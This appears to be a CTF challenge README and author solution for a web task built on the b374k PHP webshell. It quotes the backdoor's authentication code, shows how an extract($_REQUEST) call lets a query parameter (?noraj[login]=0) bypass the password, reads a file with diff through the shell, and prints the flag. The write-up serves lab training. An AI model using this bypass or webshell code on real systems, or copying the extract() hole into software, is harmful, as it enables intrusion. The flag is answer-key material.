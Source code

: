 # b374k.php webshell / c99 style PHP backdoor

## Version

Date        | Author                  | Contact               | Version | Comment
---         | ---                     | ---                   | ---     | ---
24/11/2019  | noraj (Alexandre ZANNI) | noraj#0833 on discord | 1.0     | Document creation

Information displayed for CTF players:

+ **Name of the challenge** / **Nom du challenge**: `Une porte peut en cacher une autre`
+ **Category** / **Catégorie**: `Web`
+ **Internet**: not needed
+ **Difficulty** / **Difficulté**: Medium / Moyen

### Description

```
A very famous backdoor was placed on the website, but hopefully it is password protected.

Flag format: sigsegv{flag}

author: [noraj](https://pwn.by/noraj/)
```

### Hints

- Hint1: b374k.php
- Hint2: vim

## Integration

This challenge require a Docker Engine and Docker Compose.

Builds, (re)creates, starts, and attaches to containers for a service:

```
$ docker-compose up --build
```

Add `-d` if you want to detach the container.

## Solving

### Author solution

The webshell is `b374k.php`.
The comment on the home page says the hacker used vim.
Let's look for a `.swp` vim backup file: `b374k.php.swp`.

Let's look at the code:

```php
$GLOBALS['pass'] = "09c7018841af655c9b025c0a3e5b167d05f42cd1"; // sha1(md5(pass))
...
$GLOBALS['login'] = 1;

@extract($_REQUEST["noraj"], EXTR_OVERWRITE);
...
if(!function_exists('auth')){
	function auth(){
		if(isset($GLOBALS['pass']) && (trim($GLOBALS['pass'])!='')){
			$c = $_COOKIE;
			$p = $_POST;
			if($GLOBALS['login'] == 0 || isset($p['pass'])){
				$your_pass = sha1(md5($p['pass']));
				if($GLOBALS['login'] == 0 || $your_pass==$GLOBALS['pass']){
					setcookie("pass", $GLOBALS['pass'], time()+36000, "/");
					header("Location: b374k.php");
				}
			}
```

It's no use to try to guess the password, it is `sha1(md5(pass))` of a strong one.

But we can see there is `$GLOBALS['login'] = 1;`, like *login enabled* and then
there are `$GLOBALS['login'] == 0 || isset($p['pass'])` and
`$GLOBALS['login'] == 0 || $your_pass==$GLOBALS['pass']`. So if
`$GLOBALS['login'] == 0` the login feature will be disable and we will gain
access to the shell without using a password.

`extract` allows to _Import variables into the current symbol table from_ and to
overwrite it. So let's use it to overwrite `$GLOBALS['login']` and bypass the
authentication.

The payload is `http://x.x.x.x/b374k.php?noraj[login]=0` or just
`http://x.x.x.x/b374k.php?noraj[login]`.

So we have a webshell but most of useful binaries for listing directories or
reading a file were removed.

We have two options, do it in pure PHP or find a non-removed binary.

For example reading the flag with `diff`:

```
/usr/src/app/>diff /home/noraj/flag.txt /etc/hostname
--- /home/noraj/flag.txt
+++ /etc/hostname
@@ -1 +1 @@
-sigsegv{∙∙∙∙∙·▫▫ᵒᴼᵒ▫ₒₒ▫ᵒᴼᵒ▫ₒₒ▫ᵒᴼᵒnorajᵒᴼᵒ▫ₒₒ▫ᵒᴼᵒ▫ₒₒ▫ᵒᴼᵒ▫▫·∙∙∙∙∙}
\ No newline at end of file
+da3acf79d34a
```

More about backdored backdoors: https://rawsec.ml/en/c99-php-backdoor-backdoored/

## Flag

`sigsegv{∙∙∙∙∙·▫▫ᵒᴼᵒ▫ₒₒ▫ᵒᴼᵒ▫ₒₒ▫ᵒᴼᵒnorajᵒᴼᵒ▫ₒₒ▫ᵒᴼᵒ▫ₒₒ▫ᵒᴼᵒ▫▫·∙∙∙∙∙}`

